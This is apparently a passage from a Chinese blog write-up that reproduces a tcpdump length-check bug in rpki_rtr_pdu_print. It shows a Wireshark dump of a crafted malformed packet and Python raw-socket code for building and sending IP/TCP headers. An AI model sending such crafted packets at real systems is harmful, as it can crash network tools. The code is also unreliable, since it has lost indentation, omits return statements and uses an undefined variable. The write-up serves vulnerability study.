0020 79 85 45 00 00 00 d4 31 00 00 ff 06 00 00 c0 a8
0030 79 86 c0 a8 79 85 00 ff 01 43 00 00 01 c6 00 00
0040 00 00 50 02 d0 16 23 be 00 00 41 0a 00 01 00 00
0050 00 08 00 00 00 00 7f ff ff ff 41 41 41 41
Frame 1: 94 bytes on wire (752 bits), 94 bytes captured (752 bits) on interface 0
Interface id: 0 (\Device\NPF_{B990A247-0478-43B6-8AB1-18CBBE0663EC})
Interface name: \Device\NPF_{B990A247-0478-43B6-8AB1-18CBBE0663EC}
Encapsulation type: Ethernet (1)
Arrival Time: Jan 9, 2018 18:47:07.199190000 中国标准时间
[Time shift for this packet: 0.000000000 seconds]
Epoch Time: 1515494827.199190000 seconds
[Time delta from previous captured frame: 0.000000000 seconds]
[Time delta from previous displayed frame: 0.000000000 seconds]
[Time since reference or first frame: 0.000000000 seconds]
Frame Number: 1
Frame Length: 94 bytes (752 bits)
Capture Length: 94 bytes (752 bits)
[Frame is marked: False]
[Frame is ignored: False]
[Protocols in frame: eth:ethertype:ip:data]
Ethernet II, Src: Vmware_c0:00:08 (00:50:56:c0:00:08), Dst: Vmware_07:15:e0 (00:0c:29:07:15:e0)
Destination: Vmware_07:15:e0 (00:0c:29:07:15:e0)
Address: Vmware_07:15:e0 (00:0c:29:07:15:e0)
.... ..0. .... .... .... .... = LG bit: Globally unique address (factory default)
.... ...0 .... .... .... .... = IG bit: Individual address (unicast)
Source: Vmware_c0:00:08 (00:50:56:c0:00:08)
Address: Vmware_c0:00:08 (00:50:56:c0:00:08)
.... ..0. .... .... .... .... = LG bit: Globally unique address (factory default)
.... ...0 .... .... .... .... = IG bit: Individual address (unicast)
Type: IPv4 (0x0800)
Internet Protocol Version 4, Src: 192.168.121.1, Dst: 192.168.121.133
0100 .... = Version: 4
.... 0101 = Header Length: 20 bytes (5)
Differentiated Services Field: 0x00 (DSCP: CS0, ECN: Not-ECT)
0000 00.. = Differentiated Services Codepoint: Default (0)
.... ..00 = Explicit Congestion Notification: Not ECN-Capable Transport (0)
Total Length: 80
Identification: 0x4f1c (20252)
Flags: 0x00
0... .... = Reserved bit: Not set
.0.. .... = Don't fragment: Not set
..0. .... = More fragments: Not set
Fragment offset: 0
Time to live: 128
Protocol: Unknown (255)
Header checksum: 0x76bb [validation disabled]
[Header checksum status: Unverified]
Source: 192.168.121.1
Destination: 192.168.121.133
[Source GeoIP: Unknown]
[Destination GeoIP: Unknown]
Data (60 bytes)
Data: 45000000d4310000ff060000c0a87901c0a8798500ff0143...
[Length: 60]
将两者进行对比，果然是不一样的
这。。。。。。
由于之前没有研究过Raw Socket编程，那么趁着这次机会，学习一下，这里跟着搜到的一篇教程学习构造
首先是构造ip
class ip(object):
def __init__(self, source, destination):
self.version = 4
self.ihl = 5 # Internet Header Length
self.tos = 0 # Type of Service
self.tl = 0 # total length will be filled by kernel
self.id = 54321
self.flags = 0 # More fragments
self.offset = 0
self.ttl = 255
self.protocol = socket.IPPROTO_TCP
self.checksum = 0 # will be filled by kernel
self.source = socket.inet_aton(source)
self.destination = socket.inet_aton(destination)
def pack(self):
ver_ihl = (self.version << 4) + self.ihl
flags_offset = (self.flags << 13) + self.offset
ip_header = struct.pack("!BBHHHBBH4s4s",
ver_ihl,
self.tos,
self.tl,
self.id,
flags_offset,
self.ttl,
self.protocol,
self.checksum,
self.source,
self.destination)
构造tcp
class tcp(object):
def __init__(self, srcp, dstp):
self.srcp = srcp
self.dstp = dstp
self.seqn = 0
self.ackn = 0
self.offset = 5 # Data offset: 5x4 = 20 bytes
self.reserved = 0
self.urg = 0
self.ack = 0
self.psh = 1
self.rst = 0
self.syn = 0
self.fin = 0
self.window = socket.htons(5840)
self.checksum = 0
self.urgp = 0
self.payload = ""
def pack(self, source, destination):
data_offset = (self.offset << 4) + 0
flags = self.fin + (self.syn << 1) + (self.rst << 2) + (self.psh << 3) + (self.ack << 4) + (self.urg << 5)
tcp_header = struct.pack('!HHLLBBHHH',
self.srcp,
self.dstp,
self.seqn,
self.ackn,
data_offset,
flags,
self.window,
self.checksum,
self.urgp)
#pseudo header fields
source_ip = source
destination_ip = destination
reserved = 0
protocol = socket.IPPROTO_TCP
total_length = len(tcp_header) + len(self.payload)
# Pseudo header
psh = struct.pack("!4s4sBBH",
source_ip,
destination_ip,
reserved,
protocol,
total_length)
psh = psh + tcp_header + self.payload
tcp_checksum = checksum(psh)
tcp_header = struct.pack("!HHLLBBH",
self.srcp,
self.dstp,
self.seqn,
self.ackn,
data_offset,
flags,
self.window)
tcp_header+= struct.pack('H', tcp_checksum) + struct.pack('!H', self.urgp)
校验字段
def checksum(data):
s = 0
n = len(data) % 2
for i in range(0, len(data)-n, 2):
s+= ord(data[i]) + (ord(data[i+1]) << 8)
if n:
s+= ord(data[i+1])
while (s >> 16):
print("s >> 16: ", s >> 16)
s = (s & 0xFFFF) + (s >> 16)
print("sum:", s)
s = ~s & 0xffff
关于使用，先创建一个socket对象实例，然后设置源地址和目的地址以及数据，创建ip实例以及tcp实例，最后进行拼接，如果要发送出去使用s.sendto(packet, (dest_host , 0 ))即可
s = socket.socket(socket.AF_INET,
socket.SOCK_RAW,
socket.IPPROTO_RAW)
src_host = "xxx.xxx.xxx.xxx"
dest_host = socket.gethostbyname("www.xxxxx.com")
data = "TEST!!"
# IP Header
ipobj = ip(src_host, dest_host)
iph = ip_object.pack()
# TCP Header
tcpobj = tcp(1234, 80)
tcpobj.data_length = len(data) # Used in pseudo header
tcph = tcpobj.pack(ipobj.source,
ipobj.destination)
# Injection
packet = iph + tcph + data
同样的代码生成的数据帧确实不一样，后来在一篇文章里找到，说是微软为了限制包嗅探，在Windows XP之后的系统里限制了原始套接字的能力
最后，在Linux下捕获到的包如下

rpki_rtr_pdu_print() missing length check：https://bugzilla.redhat.com/show_bug.cgi?id=1201795